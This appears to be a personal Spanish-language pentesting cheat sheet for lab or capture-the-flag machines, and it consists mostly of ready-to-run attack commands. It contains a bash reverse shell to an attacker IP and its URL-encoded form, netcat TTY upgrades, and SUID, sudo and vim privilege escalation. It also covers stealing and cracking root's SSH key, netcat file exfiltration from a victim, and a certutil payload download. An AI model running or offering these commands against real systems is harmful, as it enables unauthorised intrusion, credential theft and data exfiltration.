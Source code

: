 **Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:**

wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:**
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:**
[revshell](https://www.revshells.com/)

 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 
 **En caso de querer codificarla en url, podemos realizar el siguiente comando:**
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros zip:**
zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234**
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y

**Página donde ver como escalar privilegios con los binarios (sudo -l )**
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos**
ls -la /* | less

**Página donde se ven diferentes tipos de ataque:**
[deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar priv con rutas absolutas:**
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar priv por medio de SUID**
Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

**Ejemplo de Búsqueda de Archivos SUID** 
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).
**Otro ejemplo pero con un editor como puede ser vim:**
vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en**
/root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip

**Compartir ficheros con máquinas Windows**
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe



**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login**
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
